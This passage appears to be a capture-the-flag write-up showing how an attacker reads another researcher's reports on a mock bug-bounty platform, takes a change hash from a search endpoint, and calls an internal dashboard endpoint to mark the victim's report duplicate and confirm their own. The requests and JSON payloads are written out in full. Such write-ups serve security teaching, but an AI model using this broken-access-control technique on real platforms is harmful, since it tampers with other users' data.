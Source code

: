 Since we already have STÖK’s `user_id`, we can get their reports:

{% code overflow="wrap" %}
```
/api/v2/reports?user_id=15ee453d-18c7-419b-a3a6-ef8f2cc1271f
```
{% endcode %}

One of them is the Yahoo report — grab the ID:

{% code overflow="wrap" %}
```
c03dd42e-d929-4a50-9a8e-1ab6b2dd5e8a
```
{% endcode %}

Now use `/search` with that ID:

{% code overflow="wrap" %}
```
../search?q=c03dd42e-d929-4a50-9a8e-1ab6b2dd5e8a
```
{% endcode %}

That returns a `change_hash`:

{% code overflow="wrap" %}
```
2ea965e581705b5678fb9c95ab743b0b
```
{% endcode %}

Use it to change the status of STÖK’s report via:

{% code overflow="wrap" %}
```
POST /internal-dash/api/report/status
```
{% endcode %}

{% code overflow="wrap" %}
```json
{
    "id": "c03dd42e-d929-4a50-9a8e-1ab6b2dd5e8a",
    "status": "DUPLICATED",
    "change_hash": "2ea965e581705b5678fb9c95ab743b0b"
}
```
{% endcode %}

Do the same with your own report (ID: `f9aa28ef-7008-424e-86fb-4271b131b155`) to get a change hash.

Then promote yourself to confirmed:

{% code overflow="wrap" %}
```json
{
    "id": "f9aa28ef-7008-424e-86fb-4271b131b155",
    "status": "CONFIRMED",
    "change_hash": "da80eece7d2e15e210ebf02fc94b072e"
}
```
{% endcode %}

After that, check your dashboard — the flag is in the title of your report status.
